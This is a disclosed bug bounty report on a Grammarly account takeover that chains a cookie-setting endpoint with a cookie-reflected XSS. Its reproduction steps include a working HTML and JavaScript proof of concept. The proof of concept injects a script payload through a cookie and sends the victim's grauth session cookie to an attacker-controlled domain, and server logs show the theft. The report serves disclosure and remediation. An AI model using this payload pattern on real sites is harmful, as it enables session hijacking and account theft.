 # Account takeover through the combination of cookie manipulation and XSS

## Report Details
- **Report ID**: 534450
- **URL**: https://hackerone.com/reports/534450
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-04-10T13:57:56.746Z
- **Disclosed**: 2019-12-03T20:59:30.537Z

## Reporter
- **Username**: k4r4koyun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: grammarly

## Vulnerability Information
**Summary:** A cookie based XSS on www.grammarly.com exists due to reflection of a cookie called gnar_containerId in DOM without any sanitization. Normally, gnar_containerId is being set by the server however a vulnerable endpoint at gnar.grammarly.com called "/cookies" allows us to manipulate cookies set for *.grammarly.com and gnar_containerId was one of them. Through the combination of these findings, we were able to bypass "CORS protection/HttpOnly cookie flag" and steal any Grammarly users cookie that visits a webpage that has our malicious javacript code.

**Description:** An endpoint at gnar.grammarly.com called "/cookies" allows us to set or get any cookie value we want. Sending a POST request sets the cookie value whereas sending a GET cookie returns the value of an existing cookie. In a normal scenario, an attacker could send a GET request to that enpoint and read user authentication cookie (grauth in this case)But due to the same origin policy, we were not able to read the response . Sending a POST request was still viable(as we did not have to read the response) and we were able to replace session cookies of users (who had browsed any webpage that contained our malicious javascript) and force them to use our session. This allowed us to see any document that was created after the point of exploitation.

This was our initial bug bounty report (#532553) however, HackerOne staff did not approve it and said this is how cookies are supposed to work. So we decided to investigate this case further.

Then we have found that Grammarly uses multiple cookies and one of them is called "gnar_containerId". We have discovered that this cookie gets reflected on the "www.grammarly.com" in src attribute of an img tag. The value inside the img tag is encoded and not exploitable. However there is another img tag, surrounded with noscript tags. The second value that is inside of the noscript tags was not encoded and prone to XSS. Combining the XSS vulnerability found in the www.grammarly.com domain and the cookie manipulation through gnar.grammarly.com/cookies allowed us to inject a gnar_containerId cookie that holds our malicious javascript code

Our malicious payload that was injected into the context of grammarly.com will make a get request to gnar.grammarly.com/cookies to retrieve the values of the session cookies of the currently logged in user and send it  back to our server. Normally, an ordinary XSS would not lead to such cases as grammarly cookies are set to be httponly and secure, so it is not possible to manipulate cookies through DOM. But Thanks to the endpoint that we have discovered initially, we were able to retrieve/replace any cookies that was set by *.grammarly.com. We were able to bypass the CORS as our requests were sent on behalf of the grammarly.com and read the response.

To put it simply, if a user visits a webpage that we control, it will steal the cookies and send them to us. Our payload will make a post request to gnar.grammarly.com/cookies to replace the gnar_containerid with the second stage of our payload and the redirect the user to the vulnerable page. Upon this, our injected payload will get triggered and will make another request to gnar.grammarly.com/cookies on behalf of the grammarly.com, then will send the response body to a server that we control.

For the purpose of illustration, we just stole grauth cookie of a test account but we could actually steal any cookie set by grammarly.com.

**Solution:** This attack scenario was made possible because of the following:

  * gnar.grammarly.com/cookies does not check Referer information when it receives POST request. Adding a Referer check (assuming that no website other than the ones that hosted at *.grammarly.com is using that endpoint) will prevent client-side requests from 3rd parties.
  * There is no whitelist/blacklist for cookies that a client can alter. Disallowing the alteration of grauth and csrf-token cookies should be implemented.
  * Content based encoding was applied for noscript tags however with the combination of unnecessary trust to the cookies, an XSS was possible. Encoding should be applied for noscript tags too.

## Browsers Verified In:

  * Google Chrome 73.0.3683.86 (Official Build) (64-bit)
  * Mozilla Firefox 60.6.1esr (64-bit)

## Steps To Reproduce:

  * Host a webpage that is being served over HTTPS (to circumvent Mixed-Content protection)

  * Serve the HTML snipped below on the said page (called "Grammarly.html" for example):

```html
<html>

<head>
<title>Grammarly POC</title>
<meta charset="utf-8"/>
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
</head>

<body>
<script>

    var cookie_hax = {
        "gnar_containerId":"</noscript><script/src='https://<YOUR_DOMAIN_NAME>/poc.js'></scr"+"ipt><noscript>",
    };

    for (var name in cookie_hax) {
        $.ajax({
            type: "POST",
            url: "https://gnar.grammarly.com/cookies?name=" + name + "&value=" + encodeURIComponent(cookie_hax[name]) + "&maxAge=2147483647",
            cache: false,
            xhrFields: {
                withCredentials: true
            },
            crossDomain: true,
            async: false,
        });
    }

    window.location.replace("https://www.grammarly.com/upgrade?utm_source=upHook&app_type=app&page=free&utm_campaign=editorMenu&utm_medium=internal");

</script>
</body>

</html>
```
  * Serve the javascript code below on the same webserver (called "poc.js" for example):

```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', "https://gnar.grammarly.com/cookies?name=grauth");
xhr.withCredentials = true;
xhr.onload = function () {
    this.open('GET', "https://<YOUR_DOMAIN_NAME>/" + this.response);
    this.send();
};
xhr.send();
```
  * Browse the Grammarly.html and watch the webserver access logs (to extract cookie value)

## Supporting Material/References:

  * Webserver access logs: 

```
178.251.40.58 - - [10/Apr/2019:13:23:04 +0000] "GET /poc.js HTTP/1.1" 200 736 "https://www.grammarly.com/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36"
178.251.40.58 - - [10/Apr/2019:13:23:05 +0000] "GET /?cookie={██████████} HTTP/1.1" 200 3466 "https://www.grammarly.com/" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36"
```

## Impact

* Account takeover via cookie stealing

## Attachments
- Grammarly_Takeover_POC.mp4
